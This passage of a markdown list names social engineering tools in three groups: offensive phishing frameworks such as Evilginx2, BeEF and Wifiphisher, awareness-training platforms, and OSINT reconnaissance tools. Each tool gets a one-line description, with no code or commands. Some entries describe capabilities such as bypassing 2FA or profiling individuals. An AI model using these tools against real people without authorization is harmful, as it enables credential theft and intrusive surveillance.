3. **GoPhish** (https://getgophish.com/)\
   _&#x41;n open-source phishing simulation framework designed to assess user susceptibility to phishing attacks._
4. **Recon-ng**\
   _&#x41; full-featured web reconnaissance framework that can help gather information for social engineering attacks._
5. **Evilginx2**\
   _&#x41; man-in-the-middle attack framework used to bypass 2FA, making it effective in credential phishing attacks._
6. **Metasploit Framework**\
   _&#x54;hough generally used for penetration testing, Metasploit contains modules for conducting social engineering attacks, including payload delivery._
7. **Phishery**\
   _&#x41; tool that generates Microsoft Word documents containing embedded phishing URLs, useful for phishing campaigns that target document-based malware attacks._
8. **BeEF (Browser Exploitation Framework)**\
   _&#x41; powerful tool that targets vulnerabilities in browsers, often used after luring victims to a malicious web page._
9. **Wifiphisher**\
   _&#x41; tool to launch automated phishing attacks over Wi-Fi networks to obtain sensitive data from users by imitating legitimate Wi-Fi access points._
10. **Creepy**\
    _&#x41;n OSINT tool used to gather information on individuals via their geolocation data from social media posts._
11. **King Phisher**\
    _&#x41; flexible phishing campaign toolkit that enables security testers to conduct realistic phishing exercises._

#### _**SOCIAL ENGINEERING DEFENSE AND TRAINING TOOLS:**_

1. **KnowBe4**\
   _&#x41; widely-used security awareness training platform that simulates phishing and social engineering attacks to educate employees._
2. **PhishMe (Cofense)**\
   _&#x41; phishing defense and simulation tool that helps organizations improve their phishing awareness by launching simulated attacks._
3. **Lucy Phishing**\
   _&#x41; comprehensive phishing simulation and security awareness tool that allows organizations to test, train, and track their vulnerability to phishing attacks._
4. **PhishingBox**\
   _&#x50;rovides phishing simulation tools to assess how susceptible employees are to phishing attacks and enhance training._
5. **Recon-ng**\
   _&#x57;hile primarily a reconnaissance tool, it can be used to gather information for planning or defending against social engineering attacks._
6. **OSINT Framework**\
   _&#x41; collection of OSINT tools that can be used to gather personal information about targets, helping attackers or defenders understand potential exposure._
7. **Social-Engineer Toolkit (SET) Integration in Phishing Simulations**\
   _&#x53;ET can be integrated into phishing simulation exercises for more advanced and customized tests._
8. **Lance Hayden's AwareEd™**\
   _&#x41; tool used for employee training in identifying and preventing social engineering attacks, focusing on education and awareness._

#### _**RECON AND OSINT TOOLS FOR SOCIAL ENGINEERING:**_

1. **SpiderFoot**\
   _&#x41;n OSINT tool that automates the gathering of information from over 100 data sources, useful for reconnaissance in social engineering attacks._
2. **theHarvester**\
   _&#x55;sed to gather emails, domain information, and other target data from public sources, making it a key reconnaissance tool._
3. **Shodan**\
   _&#x41; search engine for discovering vulnerable devices and networks connected to the internet, often used in the reconnaissance phase of attacks._
4. **FOCA**\
   _&#x41; tool for extracting metadata and hidden information from documents, which can be useful for gathering information on targets._
5. **OSRFramework**\
   _&#x41; suite of tools designed to perform username checks and gather information across various platforms like social media, useful for reconnaissance._
